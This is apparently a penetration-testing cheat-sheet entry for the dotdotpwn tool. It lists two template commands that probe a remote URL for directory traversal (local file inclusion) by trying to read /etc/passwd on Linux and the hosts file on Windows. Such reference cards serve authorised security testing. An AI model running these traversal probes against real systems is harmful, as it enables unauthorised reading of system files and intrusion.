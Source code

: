 # dotdotpwn

% lfi, local file inclusion

#plateform/linux #target/remote #cat/RECON


## dotdotpwn - recon linux
```
dotdotpwn -m http-url  -u http://<url>=TRAVERSAL -M GET -k <pattern|root> -f <file|/etc/passwd>  -d <depth|5> -b -q
```

## dotdotpwn - recon windows
```
dotdotpwn -m http-url  -u http://<url>=TRAVERSAL -M GET -k <pattern|localhost> -f <file|/windows/system32/drivers/etc/hosts>  -d <depth|5> -b -q
```

